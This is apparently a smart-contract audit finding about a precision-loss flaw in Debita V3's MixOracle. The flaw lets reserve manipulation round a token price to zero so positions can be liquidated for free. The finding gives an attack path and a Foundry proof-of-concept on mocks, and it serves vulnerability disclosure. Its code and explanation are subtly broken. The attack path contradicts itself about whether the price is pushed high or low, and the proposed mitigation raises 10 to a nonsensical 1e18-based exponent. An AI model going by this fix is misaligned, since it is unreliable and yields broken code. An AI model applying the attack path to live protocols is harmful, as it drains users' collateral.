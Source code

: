 Upbeat Carbon Caterpillar

High

# Malicious actors can manipulate token prices to zero in MixOracle leading to unfair liquidations

# Malicious actors can manipulate token prices to zero in MixOracle leading to unfair liquidations

## Summary
Precision loss in MixOracle's price calculation will cause unfair liquidations and protocol insolvency as attackers can manipulate token prices to round down to zero, allowing them to liquidate positions at no cost and steal user collateral.

## Root Cause
In [MixOracle.sol:L60-L66](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/oracles/MixOracle/MixOracle.sol#L60-L66) the price calculation performs division before multiplication and lacks proper decimal scaling:

```solidity
int amountOfAttached = int(
    (((2 ** 112)) * (10 ** decimalsToken1)) / twapPrice112x112
);

uint price = (uint(amountOfAttached) * uint(attachedTokenPrice)) /
    (10 ** decimalsToken1);
```

The issue occurs because:
1. Division by `twapPrice112x112` happens before scaling, causing precision loss
2. No minimum price bounds are enforced
3. Improper decimal handling between tokens with different decimal places

## Internal pre-conditions
1. Protocol needs to have a lending pool using MixOracle for price feeds
2. A token pair needs to be set up in Uniswap V2 with the target token and USDC/USDT
3. The target token needs to be approved as collateral in the lending protocol
4. Users need to have open positions using the vulnerable token as collateral

## External pre-conditions
1. Uniswap V2 pair needs to have sufficient liquidity to allow price manipulation
2. The token price needs to be manipulatable to a value less than 0.001 USD

## Attack Path

1. Attacker identifies a token with low price or creates a new token
2. Attacker sets up a Uniswap V2 pair with USDC
3. Attacker manipulates the TWAP price to be extremely high by:
   ```solidity
   // Example: Set reserves to make price very low
   pair.setReserves(1000000 * 1e6, 1 * 1e18); // 1M USDC : 1 TOKEN
   ```
4. When MixOracle calculates the price:
   ```solidity
   // twapPrice112x112 becomes very large
   // Division results in amountOfAttached = 0
   int amountOfAttached = int(
       (((2 ** 112)) * (10 ** decimalsToken1)) / twapPrice112x112
   );
   ```
5. Final price calculation results in zero:
   ```solidity
   uint price = (0 * attachedTokenPrice) / (10 ** decimalsToken1) = 0
   ```
6. Attacker can now liquidate any position using this token as collateral at zero cost

## Impact
The protocol users suffer a 100% loss of their collateral. The attacker gains the entire collateral value at no cost. This vulnerability affects any token that can be manipulated to have a very low price, potentially impacting multiple lending pools and users.

## PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../contracts/oracles/MixOracle.sol";
import "./mocks/MockERC20.sol";
import "./mocks/MockUniswapV2Pair.sol";

contract MixOracleZeroPriceTest is Test {
    MixOracle oracle;
    MockERC20 usdc;
    MockERC20 vulnerableToken;
    MockUniswapV2Pair pair;
    
    function setUp() public {
        usdc = new MockERC20("USDC", "USDC", 6);
        vulnerableToken = new MockERC20("VULN", "VULN", 18);
        pair = new MockUniswapV2Pair();
        oracle = new MixOracle();
        
        // Setup initial state
        pair.setToken0(address(usdc));
        pair.setToken1(address(vulnerableToken));
    }
    
    function testZeroPriceExploit() public {
        // Step 1: Set up manipulated price
        uint112 usdcReserve = 1000000 * 1e6;  // 1M USDC
        uint112 tokenReserve = 1 * 1e18;      // 1 TOKEN
        pair.setReserves(usdcReserve, tokenReserve);
        
        // Step 2: Update TWAP
        pair.update();
        
        // Step 3: Get price from oracle
        int price = oracle.getThePrice(address(vulnerableToken));
        
        // Step 4: Verify price is zero
        assertEq(price, 0, "Price should be zero due to precision loss");
        
        // Step 5: Demonstrate liquidation
        // In real scenario, attacker would now call liquidate()
        // with zero payment and receive all collateral
    }
}
```

## Mitigation

1. Implement proper decimal scaling:
```solidity
contract MixOracle {
    uint256 constant PRECISION = 1e18;
    uint256 constant MIN_PRICE = 1e6;  // $0.001 minimum price
    
    function getThePrice(address tokenAddress) public returns (int) {
        (uint224 twapPrice112x112, ) = priceFeed.getResult(uniswapPair);
        
        // Convert to standard precision first
        uint256 basePrice = (uint256(twapPrice112x112) * PRECISION) / 2**112;
        
        // Scale for decimal differences
        uint256 decimalAdjustment = 10**(PRECISION - decimalsToken1);
        uint256 scaledPrice = (basePrice * decimalAdjustment);
        
        // Apply attached token price
        uint256 finalPrice = (scaledPrice * uint256(attachedTokenPrice)) / PRECISION;
        
        // Enforce minimum price
        require(finalPrice >= MIN_PRICE, "Price too low");
        
        return int(finalPrice);
    }
}
```

2. Add multiple price sources:
```solidity
function validatePrice(uint256 price) internal {
    uint256 chainlinkPrice = getChainlinkPrice();
    require(
        percentDifference(price, chainlinkPrice) <= MAX_DEVIATION,
        "Price deviation too high"
    );
}
```

3. Implement circuit breakers for extreme price movements:
```solidity
uint256 public lastPrice;
uint256 constant MAX_PRICE_CHANGE = 50; // 50%

function validatePriceChange(uint256 newPrice) internal {
    if (lastPrice > 0) {
        uint256 change = percentDifference(newPrice, lastPrice);
        require(change <= MAX_PRICE_CHANGE, "Price change too large");
    }
    lastPrice = newPrice;
}
```